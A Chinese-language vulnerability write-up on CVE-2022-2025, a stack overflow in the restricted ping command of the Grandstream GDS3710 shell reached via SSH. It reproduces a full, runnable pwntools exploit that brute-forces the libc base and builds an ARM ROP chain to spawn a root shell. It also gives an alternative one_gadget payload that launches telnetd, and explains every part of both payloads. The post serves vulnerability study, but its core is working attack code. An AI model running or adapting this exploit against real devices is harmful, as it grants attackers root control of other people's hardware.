



#### 前言
`CVE-2022-2025`相比`CVE-2022-2070`更简单，利用手法也更 "标准"，而且也有一些新的概念引入，所以这里还是有必要分析一下

#### 溢出点的分析
这里攻击的端口是22端口，该端口存在一个程序`dropbear`进行监听，在用户输入正确的账户密码后，会进入一个受限shell，即`gs_config`，`dropbear`会通过标准输入将ssh的输入传入`gs_config`，通过标准输出将`gs_config`的输出通过ssh返回，这就导致攻击者访问`gs_config`像在访问一个交互式程序。

溢出点如下，在受限shell的ping命令的host处





#### exp解析
这个脚本值得注意的有两点：
1.libc_base硬编码+循环发送payload：由于libc的基址没有泄露，且目标程序架构是arm32（爆破成本不算太高）+有守护进程（每次连接会自动启动），于是可以在libc未知的情况下，硬编码一个地址进行爆破。
2.`check_badchars`函数：检查payload中是否包含非法字符`\r \n ; | 空格`，这是由于在溢出点前，要求输入不能包含这些特殊字符，前文图片中为相应代码

```python
#!/usr/bin/env python3

# Exploit Title:  Grandstream GSD3710 1.0.11.13 - Stack Overflow 
# Date: 2025-05-29
# Exploit Author: Pepelux
# Vendor Homepage: https://www.grandstream.com/
# Version: Grandstream GSD3710 - firmware:1.0.11.13 and lower
# Tested on: Linux and MacOS
# CVE: CVE-2022-2025

"""
Author: Jose Luis Verdeguer (@pepeluxx)

Required: Pwntools

Example:

$ python 3 CVE-2022-2025.py -i DEVICE_IP -u USER -p PASSWORD
"""


from struct import pack
import sys
from time import sleep
import argparse
from pwn import *


def get_args():
    parser = argparse.ArgumentParser(
        formatter_class=lambda prog: argparse.RawDescriptionHelpFormatter(
            prog, max_help_position=50))

    # Add arguments
    parser.add_argument('-i', '--ip', type=str, required=True,
                        help='device IP address', dest="ip")
    parser.add_argument('-u', '--user', type=str, required=True,
                        help='username', dest="user")
    parser.add_argument('-p', '--pass', type=str, required=True,
                        help='password', dest="pwd")

    # Array for all arguments passed to script
    args = parser.parse_args()

    try:
        ip = args.ip
        user = args.user
        pwd = args.pwd

        return ip, user, pwd
    except ValueError:
        exit()

def check_badchars(payload):
    for i in range(5, len(payload)):
        if payload[i] in [0xd, 0xa, 0x3b, 0x7c, 0x20]:
            log.warn("Badchar %s detected at %#x" % (hex(payload[i]), i))
            return True
    return False


def main():
    ip, user, pwd = get_args()

    libc_base = 0x76bb8000
    gadget = libc_base + 0x5952C  # 0x0005952c: pop {r0, r4, pc};
    bin_sh = libc_base + 0xCEA9C  # /bin/sh
    system = libc_base + 0x2C7FD  # 0x0002c7fd  # system@libc
    exit = libc_base + 0x2660C

    print("[*] Libc base: %#x" % libc_base)
    print("[*] ROP gadget: %#x" % gadget)
    print("[*] /bin/sh: %#x" % bin_sh)
    print("[*] system: %#x" % system)
    print("[*] exit: %#x\n" % exit)

    padding = b"A" * 320

    payload = b'ping '
    payload += padding
    payload += p32(gadget)
    payload += p32(bin_sh)
    payload += b"AAAA"
    payload += p32(system)
    payload += p32(exit)

    if check_badchars(payload):
        sys.exit(0)

    count = 1

    while True:
        print('Try: %d' % count)
        s = ssh(user, ip, 22, pwd)
        p = s.shell(tty=False)
        print(p.readuntil(b"GDS3710> "))
        p.sendline(payload)
        p.sendline(b"id")
        sleep(1)
        data = p.read()
        if str(data).find('root') > -1:
            print('PWNED!')
            p.interactive()
            s.close()
            sys.exit()
        s.close()
        count += 1

if __name__ == '__main__':
    main()

```

#### payload的简单分析
```
padding = b"A" * 320

payload = b'ping '
payload += padding
payload += p32(gadget)
payload += p32(bin_sh)
payload += b"AAAA"
payload += p32(system)
payload += p32(exit)
```

1.`b'ping'` 使得程序进入溢出存在的代码逻辑
2.padding 填充部分
3.gadget指向`pop {r0, r4, pc}`,由于后续需要调用`system`，需要设置`r0`
4.bin_sh 为libc中'/bin/sh'的地址，通过上述的pop操作，该地址被出栈到`r0`中
5.`b'AAAA'` 填充部分，对应上述`pop {r0, r4, pc}`中的`pop r4`
6.system指向libc中system的地址
7.exit应该是指向exit函数的地址，system已经执行，这里可能是为了增加payload的健壮性

#### `CVE-2022-2025`与`CVE-2022-2070`的payload差异分析
为什么CVE-2022-2070的payload没有选择利用libc中的`/bin/sh`和`system`直接执行`system("/bin/sh")`呢，这是因为CVE-2022-2070中存在溢出的程序并非交互式的，而是通过tcp协议与攻击者交互，在溢出执行`system("/bin/sh")`之后，攻击者也无法直接与shell交互，不过可以通过system函数执行其他命令。

#### 另一种利用手法，无需爆破libc
下面只给出payload部分
```python
padding = b"A" * 320

payload = b'ping '
payload += padding
one_gadget = p32(0x013A42+1)
payload += one_gadget
```
这里的payload更简单，而且无需爆破libc，和之前的差别是，这里的返回地址被设置为了`one_gadget`，这是主程序中的一个地址，而非libc的地址，下图为这个地址的代码



可以看到我们直接跳转到了execlp，开放了telnetd服务，用另一种方式获得了shell
